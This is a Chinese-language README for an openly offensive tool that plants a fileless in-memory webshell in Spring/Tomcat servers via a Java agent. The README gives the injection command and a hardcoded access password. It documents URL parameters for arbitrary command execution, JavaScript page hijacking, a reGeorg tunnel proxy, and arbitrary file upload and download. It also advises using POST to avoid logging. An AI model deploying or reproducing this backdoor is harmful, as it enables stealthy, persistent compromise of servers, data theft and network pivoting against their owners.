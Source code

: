 # SpringMemShell

由于本人是条懒狗，具体的使用说明请以`/?password=stdout&model=help`为准。（主要是我改了代码之后不想动前面的markdown。。。）



## 原理

和`tomcat`内存马的原理类似，也是劫持了一个`filter`，这里修改的是`org.apache.catalina.core.ApplicationFilterChain$internalDoFilter` <br/>





## 使用步骤

>   至少应该先访问一次，确保`org.apache.catalina.core.ApplicationFilterChain`被加载

1.  将三个jar包放入靶机中，这里使用了`vulhub/spring/CVE-2018-1273`作为例子

    ![image-20210317142736836](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317142736836-20210409143828374.png)

2.  找到目标进程的pid（在docker中的pid通常为1）

    

3.  执行`java -jar javaAgent.jar [pid] "./mem.jar"`命令

    ![image-20210317143338934](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143338934-20210409143829176.png)

4.  注入成功，访问任意路由（不存在的也行） 加上参数`?password=stdout&model=exec&cmd=[command]`即可

    <font color='red'>get请求容易被日志记录下来，采用post请求相对来说不容易被发现</font>

    查看一下注入之后的`/proc/self/maps`

    ![image-20210317143739861](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143739861-20210409143830039.png)

    可以看到两个jar包进入了内存



## 效果

注入内存马之前

![image-20210317143205942](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143205942-20210409143831820.png)



注入之后

![image-20210317143804052](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143804052-20210409143833243.png)



由于是在`filter`层处理了用户请求，即使路由没有定义，也没有关系。



## 新功能+1

应hzgg的要求，加入新功能：静态页面劫持

本想着新建一条路由（在`Controller`层）去做，但是由于Spring的MVC结构，在没有`templates`的情况下不能直接渲染页面。而后听从建议，在`Filter`层就做好。

关键源代码如下

```java
String uri = request.getRequestURI();
if (uri.equals("/app.js")) {
    result += com.shiroha.springMem.SpringMemModels.readSource("1.js");
    response.getWriter().write(result);
    return;
}
```

当访问目标的`/app.js`的时候，在`filter`层就会被响应，返回`1.js`的内容。

```javascript
// 1.js
alert(1);
```



示例效果：

![image-20210323160138849](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210323160138849-20210409143833905.png)





## 新功能+2

需求增加：“既然你加载了这个agent，那要把卸载也做好啊”。

由于Java agent是注入到内存，并且修改了class，完全移除只有重启jar包这个方法（当然，也可能是我才疏学浅）。因此我想的解决方案是还原改写的方法。但是由于`javassist`编译的特殊性，完全还原是太不能做得到的。所以我换了个注入的函数`doFilter`，这个函数内容简单，还原方便，简直是不二选择。



效果演示

注入内存马之后：

![image-20210324181759730](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181759730-20210409143835147.png)

使用`?password=stdout&model=exit`，暂时解除修改的数据。

![image-20210324181912659](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181912659-20210409143835558.png)

再次执行命令就会失败：

![image-20210324181940085](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181940085-20210409143835909.png)

使用`?restart=restart`再次启用修改：

![image-20210324182015489](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182015489-20210409143836215.png)

再次可以执行命令：

![image-20210324182126043](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182126043-20210409143836484.png)

<font color='red'>这期间不会影响到业务。</font>



## 新功能+3

增加了regeorg 代理，由于最新的regeorg使用了变形base64加密，所有的字段名和值都发生了变化，导致换密码很麻烦——需要把tunnel.jsp的代码分别复制到B64类和SpringProxy类中，相信聪明的你一定会改。

我的密码是stdout。

之后可能会去研究一下变种的过程，搞一个自动一点的出来。

使用`python3 neoreg.py --url "http://target/?password=stdout&model=proxy" -k "stdout"`即可。

效果示例：

![image-20210412134149838](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412134149838.png)

![image-20210412141215288](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412141215288.png)



## 新功能+4

支持文件上传和下载

### 上传

访问`/?password=stdout&model=file`即可看到文件上传

![image-20210413175757797](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210413175757797.png)

例如：

-   path： `/tmp/1.js`
-   file: `Mgo=`
-   mode: `overwrite`

会把`Mgo=`进行base64解密之后写入`/tmp/1.js`中。

由于文件大小限制，大文件（大于1M）切块之后用append模式进行上传。



### 下载

`/?password=stdout&model=file&action=download&path=[path]`

就会下载path指向的文件

例如：

-   path=`/tmp/1.js`

